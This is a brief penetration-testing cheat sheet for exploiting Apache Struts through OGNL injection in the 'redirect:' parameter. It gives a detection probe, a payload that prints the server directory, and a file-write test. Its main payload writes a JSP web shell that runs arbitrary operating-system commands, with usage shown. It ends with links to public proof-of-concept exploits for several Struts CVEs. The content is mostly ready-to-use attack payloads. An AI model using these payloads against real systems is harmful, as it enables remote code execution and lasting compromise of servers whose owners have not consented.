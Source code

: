 # Apahe Struts
**.action** and **.do** file are indications of Apache Structs 
On .do pages that you want to test, try browsing to 
*http://www.example.com/appFolder/index.do?redirect:${3&ast;4}*
Also try submitting as a POST request. 
If you are redirected to /12, then the application is vulnerable

**Get current directory:**
```
redirect%3A%24%7B%23a%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27)%2C%23b%3D%23a.getRealPath(%22%2F%22)%2C%23c%3D%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27)%2C%0A%23c.getWriter().println(%23b)%2C%23c.getWriter().flush()%2C%23c.getWriter().close()%7D=
```

**Test ability to write to file:**
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter(%22<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.txt%22)).append('123').close()} 
```
*Check if /alfejawk7feafs.txt exists*

**Write web shell:**
*Do not attempt this unless you can get the above file write to work*
```
redirect:${new%20java.io.BufferedWriter(new%20java.io.FileWriter("<CURRENT_DIRECTORY_HERE>/alfejawk7feafs.jsp")).append('<%25%40+page+import%3d"java.util.*,java.io.*"%25><HTML><BODY><FORM+METHOD%3d"GET"+NAME%3d"myform"+ACTION%3d""><INPUT+TYPE%3d"text"+NAME%3d"cmd"><INPUT+TYPE%3d"submit"+VALUE%3d"Send"></FORM><pre><%25out.println("Command%3a+"+%2b+request.getParameter("cmd")+%2b+"<BR>")%3bProcess+p+%3d+Runtime.getRuntime().exec(request.getParameter("cmd"))%3bOutputStream+os+%3d+p.getOutputStream()%3bInputStream+in+%3d+p.getInputStream()%3bDataInputStream+dis+%3d+new+DataInputStream(in)%3bString+disr+%3d+dis.readLine()%3bwhile+(+disr+!%3d+null+)+{out.println(disr)%3bdisr+%3d+dis.readLine()%3b}%25></pre></BODY></HTML>').close()}=
```
You should then be able to use the web shell: `/alfejawk7feafs.jsp?cmd=ls`


Additional resources
https://packetstormsecurity.com/files/141494/S2-45-poc.py.txt 
https://github.com/pwntester/S2-046-PoC 
RCE via XML parser 
https://github.com/mazen160/struts-pwn_CVE-2017-9805
https://lgtm.com/blog/apache_struts_CVE-2018-11776
